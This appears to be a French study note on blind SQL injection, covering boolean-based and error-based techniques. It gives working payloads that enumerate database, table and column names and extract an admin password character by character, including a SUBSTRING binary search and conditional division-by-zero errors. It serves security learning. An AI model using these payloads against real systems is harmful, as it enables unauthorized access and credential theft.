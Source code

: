 
# Blind SQLi
## Boolean blind SQLi
Dans ce cas, la seule information que renvoie le serveur sur l'entrée vulnérable est un booléen.
Par exemple, l'API `https://website.thm/checkuser?username=admin` renvoie vrai si le nom admin est déjà pris et faux sinon. Si cet API est vulnérable, alors elle renverra vrai si la requête SQL sous-jacente est vraie.

On peut alors reprendre la méthode précédente basée sur les UNION, mais avec plus de patience.
```sql
-- On identifie qu'il y a 3 colonnes renvoyées (la requête suivante renvoie True)
'' UNION SELECT NULL, NULL, NULL;-- 

-- On identifie le nom de la db en utilisant 'like'
'' UNION SELECT NULL, NULL, NULL WHERE database() like 'a%';--       Renvoie True si le nom commence par 'a'
'' UNION SELECT NULL, NULL, NULL WHERE database() like 'at%';--       Renvoie True si le nom commence par 'at'
...

-- Idem avec le nom des tables
'' UNION SELECT NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = '<db_name>' and table_name like 'a%';--

-- Idem pour le nom des colonnes
'' UNION SELECT NULL, NULL, NULL FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';--

-- Finalement, on extrait ce que l'on souhaite de la même façon
'' UNION SELECT NULL, NULL, NULL from users where username='admin' and password like 'a%';--
```

**Note :** au lieu d'utiliser `like`, on peut comparer si un caractère est inférieur ou supérieur à un autre, ça permet de faire une recherche dichotomique, ce qui est plus rapide :
```SQL
'' UNION SELECT NULL, NULL, NULL WHERE SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm';--`
```

Autre exemple :
On a un cookie de session `Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`, et le serveur fait la requête SQL : `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`.
On peut alors faire un SQLi, mais on ne verra pas la réponse. Malgré tout, le serveur se comporte différemment selon si la requête fonctionne ou non.
=> On peut donc faire une blind SQLi.
cf [[Blind SQLi script]]

## Error based blind SQLi
Parfois, le comportement de l'application ne change pas en fonction du résultat de la requête, mais il diffère si la requête entraîne une erreur renvoyée par la db. L'erreur ne nous ait pas forcément renvoyée mais elle cause une différence de comportement dans l'application.
=> On va pouvoir reprendre la même démarche que en blind SQLi mais en créant des erreurs conditionnellement cette fois.
```SQL
'' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Dans le premier cas, l'expression `CASE` vaut `'a'` ce qui ne cause pas de problème, tandis que dans le second, elle vaut `1/0` ce qui cause une erreur.
